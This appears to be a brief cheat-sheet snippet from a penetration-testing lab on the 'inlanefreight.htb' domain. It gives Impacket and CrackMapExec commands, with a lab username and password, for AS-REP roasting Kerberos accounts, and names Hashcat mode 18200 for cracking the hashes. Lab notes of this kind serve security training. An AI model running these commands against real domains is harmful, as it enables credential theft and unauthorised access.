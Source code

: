 # Impacket

    impacket-GetNPUsers -dc-ip 10.129.231.184 inlanefreight.htb/grace:Inlanefreight01! -request -outputfile hashes

# Crackmapexec

    crackmapexec ldap dc01.inlanefreight.htb -u grace -p Inlanefreight01! --asreproast asreproast.out

Hashcat 18200
